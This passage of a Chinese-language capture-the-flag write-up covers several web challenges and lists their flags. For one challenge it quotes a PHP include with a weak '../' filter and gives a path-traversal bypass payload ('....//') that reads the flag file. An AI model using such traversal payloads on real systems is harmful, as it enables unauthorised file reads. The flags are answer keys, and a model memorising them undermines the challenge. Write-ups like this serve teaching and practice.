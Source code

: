 ```flag
CHTB{p0llute_with_styl3}
```

### Inspector Gadget

网页源代码中可找到如下信息。

```html
<center><h1>CHTB{</h1></center>
<!--1nsp3ction_-->
```

main.js 中有如下信息。

```javascript
console.log("us3full_1nf0rm4tion}");
```

main.css 中有如下信息。

```css
/* c4n_r3ve4l_ */
```

将上述信息整理组合可得 flag。

```flag
CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}
```

### MiniSTRyplace

审计代码可发现此处有一目录穿越。

```php
include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
```

简单绕过即可读取到 flag，构造载荷如下。

```payload
?lang=....//....//flag
```

得出 flag。

```flag
CHTB{b4d_4li3n_pr0gr4m1ng}
```

### Caas

查看 main.js 可发现接口在 /api/curl，POST 请求，参数为 ip。

```javascript
fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
    .then(resp => resp.json())
    .then(data => {
      output.innerHTML = data.message;
    });
```
